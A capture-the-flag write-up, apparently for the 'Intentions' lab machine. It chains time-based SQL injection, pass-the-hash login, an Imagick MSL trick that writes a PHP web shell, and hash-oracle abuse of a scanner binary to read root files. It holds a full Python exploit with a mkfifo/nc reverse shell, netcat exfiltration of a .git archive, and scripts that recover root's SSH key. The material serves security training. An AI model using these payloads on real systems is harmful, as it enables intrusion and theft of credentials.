


# INITIAL ACCESS

## DISCOVERY

The Nmap scan showed ports 22 and 80 open


The landing page allowed users to register or log in.


By registering a user and logging in, it was verified that it was possible to update the favourite genres, and the change was reflected in the feed.


An attempt to inject SQL queries was performed, and the server returned an error with the query `') OR 1=1 --`


## EXPLOIT 1 - SQL INJECTION

The requests to `/api/v1/gallery/user/genres` and `/api/v1/gallery/user/feed` were captured in BurpSuite and saved as `genres.req` and `feed.req`. These two requests were supplied to `sqlmap` with the following payload.

```sh
sqlmap -r genres.req --second-req feed.req --level=5 --risk=3 --tamper=space2comment --dbms=mysql --technique=T --sql-shell
```


`sqlmap` detected a time-based SQL injection in the "genres" JSON parameter. After some enumeration, it was possible to retrieve the hashes of admin users with the following query:

```sql
select email,password from users where admin=1;
```


Moreover, during initial enumeration, a message was detected in `/js/admin.js`.


The contents of the message were the following:

```txt
Hey team, I've deployed the v2 API to production and have started using it in the admin section.
Let me know if you spot any bugs.

This will be a major security upgrade for our users, passwords no longer need to be transmitted to the server in clear text! 
By hashing the password client side there is no risk to our users as BCrypt is basically uncrackable.
This should take care of the concerns raised by our users regarding our lack of HTTPS connection.

The v2 API also comes with some neat features we are testing that could allow users to apply cool effects to the images. I've included some examples on the image editing page, but feel free to browse all of the available effects for the module and suggest some   
```

This hinted that there was a `/v2` of the API, and that it accepted hashes instead of plaintext passwords. This means it was possible to pass the hashes obtained without cracking them.


Upon logging in as admin, the complete message on "News" revealed that the back-end server was using [PHP's Imagick](https://www.php.net/manual/en/class.imagick.php) to process images.



Furthermore, it was possible to pass arguments to Imagick by editing images.


## EXPLOIT 2 - IMAGICK ARBITRARY OBJECT INSTANTIATIONS

Capturing the request for the image edit on BurpSuite revealed that the following two parameters were used.

```json
{
	"path":"/var/www/html/intentions/storage/app/public/animals/ashlee-w-wv36v9TGNBw-unsplash.jpg",
	"effect":"wave"
}
```

The "path" parameter was passed as an argument to Imagick. Imagick is vulnerable to arbitrary object instantiations. More details about this vulnerability are here: https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

However, in summary, this is how the vulnerability was exploited:

1. A malicious `positive.png` file was created using `convert xc:red -set 'Copyright' '<?php system($_GET[\"cmd\"]); ?>' positive.png`
2. The argument `vid:msl:/tmp/php*` was passed to Imagick via the "path" parameter. This allowed the attacker to upload a file to the system via "multiform" even though no file upload functionality was available.
3. A malicious `exec.msl` file was provided to the server. This file contained a request to the malicious `positive.png` file, like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://{lhost}:{lport}/positive.png" />
<write filename="/var/www/html/intentions/public/shell.php" />
</image>
```

4. The `exec.msl` was automatically executed by the server (due to `vid:msl`). Thus it retrieved `positive.png` and saved it as `shell.php` in the web root.
5. The file `shell.php` contained shell execution code which the attacker could control with the GET parameter `cmd`.

The following script automated the process and generated a reverse shell on local port 1337.

```python
#!/usr/bin/env python3

import requests
import os
import http.server as SimpleHTTPServer
import socketserver as SocketServer
import random
import sys
import threading

if len(sys.argv) != 2:
	print(f"usage: {sys.argv[0]} <lhost>")
	print("Open a netcat listener on port 1337 before running")
	exit()

URL = "http://10.129.242.198" # change me
lhost = sys.argv[1]
lport = random.randint(9002,9999)

# Handle HTTP server in the background
class MyHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
	def do_GET(self):
		SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

def MyServer(lhost, lport):
	httpd = SocketServer.TCPServer((lhost, lport), MyHandler)
	print(f"HTTP server started at {lhost}:{lport}")
	httpd.handle_request()

# Exploit
def generate_payload():
	png = os.popen("convert xc:red -set 'Copyright' '<?php system($_GET[\"cmd\"]); ?>' positive.png") 
	msl = f"""<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://{lhost}:{lport}/positive.png" />
<write filename="/var/www/html/intentions/public/shell.php" />
</image>
"""
	open("exec.msl","w").write(msl)

def login(s):
	data = {
	"email":"greg@intentions.htb",
	"hash":"$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m"
	}
	s.post(URL + "/api/v2/auth/login", json=data)
	
def exploit():
	s = requests.Session()
	token = login(s)
	files = {
		"exec": ("exec.msl", open("exec.msl").read())
	}
	cookies = {
		"token":token
	}
	data = {
		"path":"vid:msl:/tmp/php*",
		"effect":"charcoal"
	}
	r = s.post(URL + "/api/v2/admin/image/modify", files=files, cookies=cookies, data=data)

def get_shell():
	params = {
		"cmd":f'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {lhost} 1337 >/tmp/f'
	}
	r = requests.get(URL + "/shell.php", params=params)
	print(r.text)

if __name__ == "__main__":
	generate_payload()
	
	thread = threading.Thread(target=MyServer, args=(lhost,lport,))
	thread.start()
	exploit()
	thread.join()

	get_shell()
```


# PRIVILEGE ESCALATION

## DISCOVERY

The web root directory `/var/www/html/intentions` contained a .git directory. This directory can hold commit history, which might contain sensitive information. However, it was not possible to view the commit history with the permissions of the **www-data** user.



However, it was possible to compress the directory and read it locally with the following commands:

```sh
# on kali
nc -lvnp 4444 > git.tar

# on client
tar cf /tmp/git.tar /var/www/html/intentions/.git
nc -w 3 10.10.15.14 4444 < /tmp/git.tar
```

Once the .git directory was extracted locally, it contained the cleartext password of the user **greg**.


It was verified that **greg** was a member of the **scanner** group. This group had execution permission on the custom binary located in `/opt/scanner/scanner`.


## EXPLOIT 3 - HASH GUESSING ON CUSTOM BINARY

The custom `scanner` binary comprised of performed hash verification of provided files against provided hashes. This was initially used to flag copyrighted images; however, the binary was used to brute-force the root flag on the server.

The following command was used to retrieve the root flag hash, by scanning the hash of 1 character until 32 characters.

```sh
for i in {1..32}; do /opt/scanner/scanner -p -s 123456 -c /root/root.txt -l $i >> hashes.txt; done
```


This list of hashes was then saved in `root-flag-hashes.txt` and the following script was used to retrieve it.

```python
#!/usr/bin/env python3

import hashlib
import string

hex_characters = string.printable[:16]

hashes = open("root-flag-hashes.txt").readlines()
flag = ""

for h in hashes:
	h = h.rstrip()
	for c in hex_characters:
		check = flag.encode() + c.encode()
		if hashlib.md5(check).hexdigest() == h:
			flag += c
			break

print(flag)
```


Moreover, it was possible to obtain root's ssh key in a similar fashion.

```sh
for i in {1..5000}; do /opt/scanner/scanner -p -s 123456 -c /root/.ssh/id_rsa -l $i >> hashes.txt; done
```

Using now the following script:

```python
#!/usr/bin/env python3

import hashlib
import string
ascii_characters = string.printable

root_ssh_hashes = open("root-id-rsa.hashes").readlines()

flag = ""
for h in root_ssh_hashes:
	h = h.rstrip()
	for c in ascii_characters:
		check = flag.encode() + c.encode()
		if hashlib.md5(check).hexdigest() == h:
			flag += c
			break

print(flag)
```


# BEYOND ROOT

After the challenge was solved, a friend of mine developed a "master" script to read all files. This could be used on the victim's machine.

```python
import os
import hashlib

def find_character(prefix, md5_hash):
    for char in range(256):
        test_string = prefix + chr(char)
        hashed_string = hashlib.md5(test_string.encode()).hexdigest()
        if hashed_string == md5_hash:
            return chr(char)
    return None

def get_hash(file, length):
    data = os.popen(f"/opt/scanner/scanner -p -s e76884da2fd0ccf43b73c42f22d72e05 -c {file} -l {length}").read()
    return data.split("\n")[0].split()[-1]

file = input("File: ")
content = ""
cont = 1

while True:
    partial_hash = get_hash(file, cont)
    new_char = find_character(content, partial_hash)
    if not new_char:
        break
    
    content += new_char
    cont += 1
    print(content)
```
